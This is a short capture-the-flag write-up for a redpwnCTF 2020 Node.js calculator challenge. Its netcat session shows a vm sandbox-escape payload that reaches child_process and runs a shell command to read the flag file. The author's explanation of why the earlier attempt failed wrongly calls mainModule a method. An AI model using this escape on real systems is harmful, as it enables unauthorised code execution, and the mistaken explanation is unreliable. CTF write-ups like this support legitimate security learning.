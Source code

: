 ## Writeup

After inspecting the program and trying to run few commands it was known to me that it was a `sandbox-escaping` problem based on nodejs. I didn't know much about sandbox escaping for javascript so after lot of googling found this two useful websites given below.

- **site used for information :-**  
	
	1. https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html
	2. https://tipi-hack.github.io/2019/04/14/breizh-jail-calc2.html


- **run this to get the flag**

```
$ nc 2020.redpwnc.tf 31273
Welcome to my Calculator-as-a-Service (CaaS)!
This calculator lets you use the full power of Javascript for
your computations! Try `Math.log(Math.expm1(5) + 1)`
Type q to exit.
> this.constructor.constructor("return process")().mainModule.require('child_process').execSync('cat /ctf/flag.txt')
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD} 
```  

I was using the same command as above previously but my mistake was this `{....return process.mainModule....}` as "mainModule" is not a property but a method of process and we need its return value to call the "mainModule" function so it should be like this `{....return process")().mainModule....}`.

## flag
flag{vm_1snt_s4f3_4ft3r_41l_29ka5sqD}
